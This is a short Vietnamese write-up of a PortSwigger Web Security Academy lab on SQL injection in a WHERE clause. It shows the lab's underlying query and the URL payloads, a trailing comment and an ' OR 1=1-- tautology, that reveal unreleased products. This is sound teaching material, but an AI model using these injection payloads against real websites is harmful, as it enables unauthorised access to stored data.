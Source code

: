 ## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

1. Nhận thấy khi click vào một category bất kỳ ví dụ khi click vào ``Accessories`` url của nó sẽ là ``https://0a3b00c7042ef0e8c0526dd100380010.web-security-academy.net/filter?category=Accessories`` câu query của nó sẽ là :
    ``SELECT * FROM products WHERE category = 'Accessories' AND released = 1``

2. Để hiển thị toàn bộ các sản phẩm đã release và chưa release ta sẽ comment để xóa đoạn query ``AND released = 1``, từ đó url chuyển thành 
    ``https://0a3b00c7042ef0e8c0526dd100380010.web-security-academy.net/filter?category=Accessories'--``

![Img1](\assets/../img/release_and_unrelease.png)

3. Để hiện thị toàn bộ sản phẩm của cả các category khác, thêm vào đoạn query để điều kiện sau WHERE luôn đúng
    ``https://0a3b00c7042ef0e8c0526dd100380010.web-security-academy.net/filter?category=Accessories'+OR+1=1--``

![Img2](\assets/../img/done.png)
